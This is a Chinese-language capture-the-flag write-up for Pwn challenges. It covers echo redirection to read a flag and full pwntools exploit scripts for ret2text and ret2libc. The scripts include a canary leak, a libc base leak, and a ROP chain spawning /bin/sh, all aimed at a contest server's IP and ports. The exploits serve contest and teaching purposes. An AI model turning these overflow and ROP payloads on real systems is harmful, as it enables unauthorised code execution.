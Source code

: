 # <font style="color:#601BDE;">P</font><font style="color:#AE146E;">wn</font>
## <font style="color:#5C8D07;">Pwn 入门指北</font>
附件就是 wp，照着做就行，懒得写了。

## <font style="color:#5C8D07;">nc就行</font>
一堆指令都被删了，但是我们的 echo 还在，我们可以重定向把 flag 里面的内容搞出来。

![](../../../images/785ce931938f3904f29dd7cfcc0d7a1d.png)



## <font style="color:#5C8D07;">ret2text</font>
![](../../../images/cd47fe2973d1095187a8140e178052c9.png)

有两层，第一层是个 check，传入的内容需要等于 0xDEADBEAF。

第二层是个栈溢出，可以找到后门函数，直接 ret2text。

[!]第一层需要注意端序问题。

```python
from pwn import *
context.log_level = "debug"
p = remote("223.129.86.2",34070)
message = b'\xAF\xBE\xAD\xDE'
p.recvuntil(b"pwntools?")
p.send(message)
p.recvuntil(b"deadbeaf")
backdoor = 0x401196
ret = 0x4011B9
payload = b'A' * 32 + b'B' * 8 + p64(backdoor)
p.sendline(payload)
p.interactive()


```

![](../../../images/f1dab4dfcd0aa356f57753556ad7f68f.png)

## <font style="color:#5C8D07;">babyrust</font>
第一次做 rust pwn，很有意思。

pwn 开头的应该都是自建函数，ida 里面交叉引用看一下，发现 makefirst 函数没有被调用过。

![](../../../images/ac8e81ed56086df30b8075c3042a4b11.png)

![](../../../images/ab01dd2cd2d168afa1d0acd92ece0ff3.png)

看一下里面的逻辑，似乎是直接把 /flag 的内容读出来。

vulnerable_function 里面有栈溢出，可以直接 ret2text 到 make_first 函数，把 flag 读出来。

填充长度不太好看，这里偷懒直接爆破了，试出来是 216 + 8。

```python
from pwn import *
context.log_level = "debug"
p = remote("223.129.86.2",34071)
backdoor = 0x43ADE0
ret = 0x43AFE7
payload = b'A' * 208 + b'B' * 8 + p64(ret) + p64(backdoor)
p.recvuntil(b'Enter your input: ')
p.sendline(payload)
p.interactive()


```

![](../../../images/7c305461b8df4c4791d6a2bb04be9d38.png)

## <font style="color:#5C8D07;">ret2libc</font>
如题，就是个 ret2libc + canary 的板子。

![](../../../images/b3ca5218fba5ef4efbbc921620cb4d1d.png)

```python
from pwn import *
p=remote("223.129.86.2",34084)
libc=ELF('./libc.so.6')
payload=b'a'*0x38+b'b'
p.sendlineafter(b'> ',str(1))
p.sendafter(b'e!\n',payload)
p.recvuntil(b'b')
canary=u64(p.recv(7).rjust(8,b'\x00'))
print(hex(canary))
heap_base=u64(p.recvuntil(b'. Do')[-17:-4].ljust(8,b'\x00'))
print(hex(heap_base))
pop_rdi_ret=0x1227
payload=b'a'*0x38+p64(canary)+p64(0)+b'\x42'
p.sendafter(b'agian?\n',b'y')
p.send(payload)
payload=b'a'*0x58
p.sendlineafter(b'> ',str(1))
p.sendafter(b'e!\n',payload)
libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))-0x29d90
print(hex(libc_base))
p.sendafter(b'agian?\n',b'y')
ret_addr=libc_base+0x29139
pop_rdi_ret=libc_base+0x2a3e5
sys_addr=libc_base+libc.symbols['system']
binsh=libc_base+next(libc.search(b'/bin/sh'))
payload=b'a'*0x38+p64(canary)+p64(0)+p64(ret_addr)+p64(pop_rdi_ret)+p64(binsh)+p64(sys_addr)
p.send(payload)
p.interactive()


```

# <font style="color:#601BDE;"></font>
